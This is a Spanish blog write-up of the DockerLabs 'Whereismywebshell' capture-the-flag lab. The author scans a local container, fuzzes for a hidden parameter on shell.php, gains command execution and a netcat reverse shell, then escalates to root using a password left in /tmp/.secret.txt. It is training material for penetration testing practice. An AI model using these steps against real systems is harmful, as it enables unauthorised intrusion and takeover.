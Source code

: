 ```yaml
---
title: DockerLabs - Whereismywebshell
author: elcybercurioso
date: 2025-10-27 13:00
categories: [Post, DockerLabs]
tags: [fácil, ]
media_subpath: "/assets/img/posts/dockerlabs_whereismywebshell"
image:
  path: main.webp
published: false
---
```


## nmap

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Whereismywebshell]
└─$ nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 10:19 GMT
Initiating ARP Ping Scan at 10:19
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 10:19, 0.11s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 10:19
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 10:19, 9.58s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up (0.000046s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 9.89 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Whereismywebshell]
└─$ nmap -sCV -p80 172.17.0.2                                  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 10:22 GMT
Nmap scan report for consolelog.lab (172.17.0.2)
Host is up (0.000062s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.98 seconds
```

## análisis

Comenzamos revisando la pagina web alojada en el puerto 80 de la maquina, donde al final nos dan una pequeña pista de por donde empezar a escalar privilegios una vez obtengamos acceso:

![Desktop View](/20251027112023.webp){: width="972" height="589" .shadow}

Fuzzeamos en busca de recursos que puedan servirnos para obtener una consola:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Whereismywebshell]
└─$ gobuster dir -u "http://172.17.0.2" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x .txt,.html,.php 
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 2510]
/shell.php            (Status: 500) [Size: 0]
/warning.html         (Status: 200) [Size: 315]
Progress: 882228 / 882228 (100.00%)
===============================================================
Finished
===============================================================
```

Encontramos un recurso llamado `shell.php`, pero parece ser que necesitamos un parámetro el cual debemos pasarle para que se ejecute correctamente el script:

![Desktop View](/20251027113227.webp){: width="972" height="589" .shadow}

Tambien descubrimos que existe un fichero llamado `warning.html`, el cual nos da a entender que debemos fuzzear por el parámetro del fichero `shell.php`:

![Desktop View](/20251027112513.webp){: width="972" height="589" .shadow}

Tras fuzzear, encontramos cual es parámetro que podemos usar:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Whereismywebshell]
└─$ wfuzz -c --hc=404,500 --hh=0 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u "http://172.17.0.2/shell.php?FUZZ=whoami" -t 200 
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/shell.php?FUZZ=whoami
Total requests: 6453

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                           
=====================================================================

000004007:   200        2 L      2 W        21 Ch       "p********"                                                                                                                                       

Total time: 11.33796
Processed Requests: 6453
Filtered Requests: 6452
Requests/sec.: 569.1495
```

## explotación

Empleando el parámetro que hemos encontrado, podemos ejecutar comandos:

![Desktop View](/20251027114112.webp){: width="972" height="589" .shadow}

Teniendo esto ya definido, podemos obtener la consola:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Whereismywebshell]
└─$ nc -nlvp 4444  
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 58404
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@d4d4dbf1a2c0:/var/www/html$ whoami
whoami
www-data
```

## escalada de privilegios

Haciendo caso a la pista que nos dieron al principio, nos dirigimos a la carpeta `/tmp`, donde encontramos el fichero `.secret.txt`:

```bash
www-data@d4d4dbf1a2c0:/tmp$ ls -la
total 12
drwxrwxrwt 1 root root 4096 Oct 27 10:19 .
drwxr-xr-x 1 root root 4096 Oct 27 10:18 ..
-rw-r--r-- 1 root root   21 Apr 12  2024 .secret.txt
```

Y dentro, está la supuesta contraseña del usuario `root`:

```bash
www-data@d4d4dbf1a2c0:/tmp$ cat .secret.txt 
cont***************
```

Probamos a conectarnos como el usuario `root`, y validamos que efectivamente se trata de su contraseña:

```bash
www-data@d4d4dbf1a2c0:/tmp$ su root
Password: 
root@d4d4dbf1a2c0:/tmp# whoami
root
```

<a href="https://www.buymeacoffee.com/elcybercurioso" target="_blank"><img src="https://img.buymeacoffee.com/button-api/?text=Buy+me+a+coffee&emoji=&slug=elcybercurioso&button_colour=FFDD00&font_colour=000000&font_family=Cookie&outline_colour=000000&coffee_colour=ffffff" alt="buymecoffee_icon" /></a>

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="zweilosec" data-description="Support me on Buy me a coffee!" data-message="Gracias por tu visita! Un café me da las fuerzas para continuar!" data-color="#FFDD00" data-position="Right" data-x_margin="18" data-y_margin="18"></script>